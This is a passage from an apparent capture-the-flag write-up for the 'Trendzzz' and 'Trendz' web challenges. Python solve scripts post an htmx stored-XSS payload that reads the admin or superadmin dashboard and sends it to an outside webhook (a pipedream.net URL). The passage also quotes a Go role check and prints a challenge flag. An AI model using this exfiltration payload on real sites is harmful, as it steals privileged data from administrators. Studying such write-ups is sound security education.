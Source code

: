 **Solve script**
```python
import requests 
from threading import Thread

url = "https://2622ba93-191a-43b6-87d7-6c8072a3b98f.bugg.cc"
sess = requests.Session()
username = "123123"
res = sess.post(url + "/register", json={'username': username, 'password': '123123'})
res = sess.post(url + "/login", json={'username': username, 'password': '123123'})
print(sess.cookies.get_dict())
res = sess.post(url + "/user/posts/create", json={'title':'lmao','data':'<a hx-get="/" hx-trigger="load" hx-vals="js:{lastKey: fetch(`/superadmin/dashboard`).then(res=>res.text()).then(body=>fetch(`https://<webhook>?body=${btoa(body)}`)) }">lmao</a>'})
print(res.text)
# Get the post ID and send to bot:
# Ex: https://2622ba93-191a-43b6-87d7-6c8072a3b98f.bugg.cc/superadmin/viewpost/06c89fac-25ba-4e77-b9fd-513a0591defc
```
**Flag:** `CSCTF{759b2187-f746-49e1-90da-2b645d3cd61c}`

## Trendz
**Solvers:** 52 <br>
**Author:** careless_finch

### Unintended
After getting XSS for the superadmin, I can just also exfil the content of the admin's dashboard because the superadmin is also the admin according to the `ValidateAdmin` function

```golang
...
  fmt.Println(tokenString)
  claims := jwt.ExtractClaims(tokenString)
  if claims["role"] == "admin" || claims["role"] == "superadmin" {
    fmt.Println(claims)
  } else {
    fmt.Println("Token is not valid")
    c.AbortWithStatusJSON(403, gin.H{"error": "User Unauthorized"})
    return
  }
...
```
{: file="handlers/service/ValidateAdmin.go" }

So I just use the same payload as [`Trendzzz`](#trendzzz) to get the admin's secret post id, and then get the flag via `/user/posts/:postid`

**Solve script**
```python
import requests 
from threading import Thread

url = "https://2622ba93-191a-43b6-87d7-6c8072a3b98f.bugg.cc"
sess = requests.Session()
username = "123123"
res = sess.post(url + "/register", json={'username': username, 'password': '123123'})
res = sess.post(url + "/login", json={'username': username, 'password': '123123'})
print(sess.cookies.get_dict())
res = sess.post(url + "/user/posts/create", json={'title':'lmao','data':'<a hx-get="/" hx-trigger="load" hx-vals="js:{lastKey: fetch(`/admin/dashboard`).then(res=>res.text()).then(body=>fetch(`https://eop3d7k7zxyf87a.m.pipedream.net?body=${btoa(body)}`)) }">lmao</a>'})
print(res.text)
# Send this to bot: https://2622ba93-191a-43b6-87d7-6c8072a3b98f.bugg.cc/superadmin/viewpost/06c89fac-25ba-4e77-b9fd-513a0591defc
```